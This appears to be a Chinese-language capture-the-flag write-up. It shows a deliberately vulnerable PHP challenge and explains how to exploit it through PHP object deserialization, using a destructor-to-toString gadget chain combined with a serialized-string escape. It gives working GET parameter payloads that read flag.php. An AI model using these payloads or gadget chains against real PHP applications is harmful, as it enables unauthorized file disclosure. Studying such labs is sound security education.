



# Challenge 0X01

## 源码

index.php

```php
<?php
// show_source("c1.php");
error_reporting(0);
function write($data){
	return str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
}

function read($data){
	return str_replace('\0\0\0', chr(0) . '*' . chr(0) , $data);
}

class A{
	public $username;
	public $password;
	function __construct($a,$b){
		$this->username = $a;
		$this->password = $b;
	}
}

class B{
	public $b ='gqy';
	function __destruct(){
		$c = 'a'.$this->b;
		echo $c;
	}
}

class C{
	public $c;
	function __toString(){
		//flag.php
		echo file_get_contents($this->c);
		return 'nice';
	}
}

$a = new A($_GET['a'],$_GET['b']);

$b = unserialize(read(write(serialize($a))));
?>
```

flag.php

```php
<?php
$a="flag{ccc}";
?>
```

## 题解

​		核心思路“destruct+toString序列化攻击”配合“序列化字符串逃逸”

### 序列化攻击

​		核心攻击链：利用类B的\_\_destruct魔术方法内的echo，触发类C的\_\_toString魔术方法调用file_get_contents获取flag.php内容。

​		构造序列化链：

```php
<?php
  <?php

class A{

}

class B{
	public $b;
}

class C{
	public $c='flag.php';
}

$b= new b();
$b->b=new c();
echo serialize($b);
//O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}
?>
```

​		测试攻击效果，攻击成功。



​		将payload正常传入$_GET参数a和b，得到以下结果：



​		发现序列化字符串被当成了username和password变量的值，但在unserialize之前，调用了read和write函数，我们可以利用这两个函数进行序列化字符串逃逸。

### 序列化字符串逃逸

​		直接拿exp进行调试。

```php
$_GET['a']='\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0';
$_GET['b']='a";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}};';
```

​		结果：


​		read函数将`\0\0\0`（长度为6）替换为`<0x00>*<0x00`（长度为3）后，导致s:48从第一个引号`"`后开始读取48个字符，在<0x00>后遇到第二个引号时，已读取字符串长度为24，不足48，从而继续读取字符串，直到遇到`a";`，读完字符a后，已读字符串长度为48，此处的引号才与第一个引号对已读取的48个字符进行闭合。



**具体分析如何构造序列化字符串逃逸漏洞：**

​		read函数可将\0\0\0替换为<0x00>*<0x00>，长度为6的字符串变成了长度为3的字符串，长度减少了3。

​		考虑正常的序列化字符串

```php
O:1:"A":2:{s:8:"username";s:9:"bbbbbbbbb";s:8:"password";s:55:"O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}";}
```

​		我们可以通过参数a传入\0\0\0，使得序列化字符串中username变量的对应特征`s:9:"bbbbbbbbb";`的`bbbbbbbbb`字符串长度变短，但是由于`s:9`中9的数值并未变化，php在读取完长度变短后的值后，会继续读取字符串，直到读取了9个字符。我们可以借此方法吞掉password字段，实现反序列化字符串逃逸。

​		参考上文的正常序列化字符串，我们需要吞掉的字符为：

```php
";s:8:"password";s:55:"a
```

​		其中a是额外添加的字符串，因为原字符串长度为23，考虑到3字节对齐，需要添加一个字符a凑齐24个字符。其中，`s:8:"password";s:55:"`为序列化过程动态添加，且由于每一个**序列化变量值**必须要有与其对应的**变量名**才合法，构造的payload为：

```php
$_GET['a']='\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0';
$_GET['b']='a";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}};';
```

​		`s:8:"password";`即为值`O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"`
`flag.php";}};`对应的变量名。

